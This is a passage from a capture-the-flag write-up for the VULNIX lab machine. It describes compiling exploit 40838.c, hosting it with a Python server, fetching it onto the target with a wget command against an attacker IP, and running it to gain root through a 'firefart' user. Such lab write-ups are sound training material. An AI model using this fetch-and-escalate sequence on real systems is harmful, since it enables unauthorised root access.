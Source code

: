  2.  Compile it using command

**gcc 40838.c -lcrypt - pthread -o exp**

And share it using python server 

![VULNIX%20writeup%20a1b877d552164bc38fb7d0a5a578920c/Untitled%2029.png](VULNIX%20writeup%20a1b877d552164bc38fb7d0a5a578920c/Untitled%2029.png)

 3.  Download exploit in target system using wget command

**wget [http://192.168.122.1](http://192.168.122.135)45:8000/exp .** 

![VULNIX%20writeup%20a1b877d552164bc38fb7d0a5a578920c/Untitled%2030.png](VULNIX%20writeup%20a1b877d552164bc38fb7d0a5a578920c/Untitled%2030.png)

 4. **./exp** (to exploit)

It will ask you to enter any password 

*** This script will pawn root user as firefart user

![VULNIX%20writeup%20a1b877d552164bc38fb7d0a5a578920c/Untitled%2031.png](VULNIX%20writeup%20a1b877d552164bc38fb7d0a5a578920c/Untitled%2031.png)
